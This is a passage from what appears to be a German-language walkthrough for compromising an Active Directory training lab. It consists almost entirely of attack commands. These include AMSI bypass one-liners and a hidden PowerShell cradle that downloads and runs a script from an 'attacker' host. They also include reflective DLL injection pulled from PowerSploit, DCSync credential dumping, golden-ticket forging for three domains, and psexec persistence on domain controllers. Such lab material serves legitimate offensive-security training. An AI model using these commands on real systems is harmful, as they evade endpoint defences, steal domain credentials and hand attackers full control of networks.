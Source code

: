 ### 7.2 PowerShell Logging Bypass

#### AMSI Bypass
```powershell
# AMSI Bypass (verschiedene Techniken)
PS> [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

# Alternative AMSI Bypass
PS> $a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Failed") {$f=$e}};$f.SetValue($null,$true)
```

#### Execution Policy Bypass
```powershell
# PowerShell Execution Policy umgehen
powershell.exe -ExecutionPolicy Bypass -File script.ps1
powershell.exe -ep bypass -c "IEX (gc script.ps1 -raw)"
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://attacker/script.ps1'))"
```

### 7.3 Process Injection & Hollowing

#### Reflective DLL Injection
```powershell
# PowerSploit Invoke-ReflectivePEInjection
PS> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/CodeExecution/Invoke-ReflectivePEInjection.ps1')
PS> Invoke-ReflectivePEInjection -PEPath payload.dll -ProcName explorer
```

---

## 8. Complete Lab Compromise - Final Steps

### 8.1 Domain Dominance Checklist

#### Ziel: Vollständige Kontrolle über alle Domänen
```bash
# 1. DCSync für alle Domänen
secretsdump.py sevenkingdoms.local/administrator:pass@192.168.20.10 -outputfile sevenkingdoms_complete
secretsdump.py north.sevenkingdoms.local/administrator:pass@192.168.20.11 -outputfile north_complete
secretsdump.py essos.local/administrator:pass@192.168.20.12 -outputfile essos_complete

# 2. Golden Tickets für alle Domänen erstellen
ticketer.py -nthash <krbtgt_sevenkingdoms> -domain-sid <sid> -domain sevenkingdoms.local administrator
ticketer.py -nthash <krbtgt_north> -domain-sid <sid> -domain north.sevenkingdoms.local administrator
ticketer.py -nthash <krbtgt_essos> -domain-sid <sid> -domain essos.local administrator

# 3. Persistence auf allen Domain Controllern
# Via Golden Ticket PSExec
export KRB5CCNAME=administrator_sevenkingdoms.ccache
psexec.py -k -no-pass administrator@kingslanding.sevenkingdoms.local

export KRB5CCNAME=administrator_north.ccache
psexec.py -k -no-pass administrator@winterfell.north.sevenkingdoms.local

export KRB5CCNAME=administrator_essos.ccache
```
